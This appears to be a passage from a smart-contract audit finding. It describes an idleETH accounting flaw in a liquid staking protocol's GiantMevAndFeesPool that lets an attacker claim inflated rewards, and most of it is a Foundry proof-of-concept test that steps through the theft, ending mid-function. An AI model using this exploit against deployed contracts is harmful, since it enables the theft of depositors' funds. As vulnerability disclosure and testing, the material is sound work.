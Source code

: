 The idleETH will be decreased in the function `batchDepositETHForStaking` for sending eth to the staking pool. But the idleETH wont be increased in the function `bringUnusedETHBackIntoGiantPool` which is used to burn lp tokens in the staking pool, and the staking pool will send the eth back to the giant pool. And then because of the diminution of the idleETH, the `accumulatedETHPerLPShare` is added out of thin air. So the attacker can steal more eth from the GiantMevAndFeesPool.

### [](#proof-of-concept-8)Proof of Concept

test:  
test/foundry/TakeFromGiantPools.t.sol

    pragma solidity ^0.8.13;
    
    // SPDX-License-Identifier: MIT
    
    import "forge-std/console.sol";
    import {GiantPoolTests} from "./GiantPools.t.sol";
    import { LPToken } from "../../contracts/liquid-staking/LPToken.sol";
    
    contract TakeFromGiantPools is GiantPoolTests {
        function testDWclaimRewards() public{
            address nodeRunner = accountOne; vm.deal(nodeRunner, 12 ether);
            address feesAndMevUserOne = accountTwo; vm.deal(feesAndMevUserOne, 4 ether);
            address feesAndMevUserTwo = accountThree; vm.deal(feesAndMevUserTwo, 4 ether);
    
            // Register BLS key
            registerSingleBLSPubKey(nodeRunner, blsPubKeyOne, accountFour);
    
            // Deposit ETH into giant fees and mev
            vm.startPrank(feesAndMevUserOne);
            giantFeesAndMevPool.depositETH{value: 4 ether}(4 ether);
            vm.stopPrank();
            vm.startPrank(feesAndMevUserTwo);
            giantFeesAndMevPool.depositETH{value: 4 ether}(4 ether);
    
            bytes[][] memory blsKeysForVaults = new bytes[][](1);
            blsKeysForVaults[0] = getBytesArrayFromBytes(blsPubKeyOne);
    
            uint256[][] memory stakeAmountsForVaults = new uint256[][](1);
            stakeAmountsForVaults[0] = getUint256ArrayFromValues(4 ether);
            giantFeesAndMevPool.batchDepositETHForStaking(
                getAddressArrayFromValues(address(manager.stakingFundsVault())),
                getUint256ArrayFromValues(4 ether),
                blsKeysForVaults,
                stakeAmountsForVaults
            );
            vm.warp(block.timestamp+31 minutes);
            LPToken[] memory tokens = new LPToken[](1);
            tokens[0] = manager.stakingFundsVault().lpTokenForKnot(blsPubKeyOne);
    
            LPToken[][] memory allTokens = new LPToken[][](1);
            allTokens[0] = tokens;
            giantFeesAndMevPool.bringUnusedETHBackIntoGiantPool(
                getAddressArrayFromValues(address(manager.stakingFundsVault())),
                allTokens,
                stakeAmountsForVaults
            );
            // inject a NOOP to skip some functions
            address[] memory stakingFundsVaults = new address[](1);
            bytes memory code = new bytes(1);
            code[0] = 0x00;
            vm.etch(address(0x123), code);
            stakingFundsVaults[0] = address(0x123);
            giantFeesAndMevPool.claimRewards(feesAndMevUserTwo, stakingFundsVaults, blsKeysForVaults);
            vm.stopPrank();
            console.log("user one:", getBalance(feesAndMevUserOne));
            console.log("user two(attacker):", getBalance(feesAndMevUserTwo));
            console.log("giantFeesAndMevPool:", getBalance(address(giantFeesAndMevPool)));